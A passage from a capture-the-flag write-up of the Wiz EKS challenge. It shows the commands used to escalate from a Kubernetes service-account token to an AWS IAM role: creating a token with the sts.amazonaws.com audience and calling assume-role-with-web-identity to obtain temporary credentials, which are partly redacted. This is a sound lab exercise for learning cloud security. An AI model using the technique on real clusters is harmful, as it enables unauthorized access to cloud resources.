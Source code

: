 Looks like we have less access than before.  So not too helpful, lets take a
look at that service account we want to become:

```bash
root@wiz-eks-challenge:~# kubectl get sa s3access-sa -o json
{
    "apiVersion": "v1",
    "kind": "ServiceAccount",
    "metadata": {
        "annotations": {
            "eks.amazonaws.com/role-arn": "arn:aws:iam::688655246681:role/challengeEksS3Role"
        },
        "creationTimestamp": "2023-10-31T20:07:34Z",
        "name": "s3access-sa",
        "namespace": "challenge5",
        "resourceVersion": "671916",
        "uid": "86e44c49-b05a-4ebe-800b-45183a6ebbda"
    }
}
```

I think we are going to need to use our AWS access to assume that role, I don't
believe our kubernetes access is going to get us anywhere:

```bash
root@wiz-eks-challenge:~# aws sts assume-role --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name test

An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282 is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::688655246681:role/challengeEksS3Role
```

Ok, so *maybe* our kubernetes access is important since we can't assume the role
directly.   Lets try to use that $TOKEN from `debug-sa` to assume the role:

```bash
root@wiz-eks-challenge:~# aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name test --web-identity-token $TOKEN

An error occurred (InvalidIdentityToken) when calling the AssumeRoleWithWebIdentity operation: Incorrect token audience
```

Getting closer!   The default audience for a token created with `kubectl` is
`https://kubernetes.default.svc` which amazon doesn't seem to like.  Lets try
creating it again with `sts.amazonaws.com`:

```bash
export TOKEN=$(kubectl create token debug-sa --audience sts.amazonaws.com)
root@wiz-eks-challenge:~# aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name test --web-identity-token $TOKEN
{
    "Credentials": {
        "AccessKeyId": "ASIA2AVYNEV<*REDACTED*>",
        "SecretAccessKey": "VTZ4TuDrtHGca<*REDACTED*>",
        "SessionToken": "IQoJb3JpZ2luX2VjEAQaCXVzLXd+7ONV2wIgESXuf<*REDACTED*>",
        "Expiration": "2023-11-03T05:09:07+00:00"
    },
    "SubjectFromWebIdentityToken": "system:serviceaccount:challenge5:debug-sa",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA2AVYNEVMZEZ2AFVYI:test",
        "Arn": "arn:aws:sts::688655246681:assumed-role/challengeEksS3Role/test"
    },
    "Provider": "arn:aws:iam::688655246681:oidc-provider/oidc.eks.us-west-1.amazonaws.com/id/C062C207C8F50DE4EC24A372FF60E589",
    "Audience": "sts.amazonaws.com"
}
```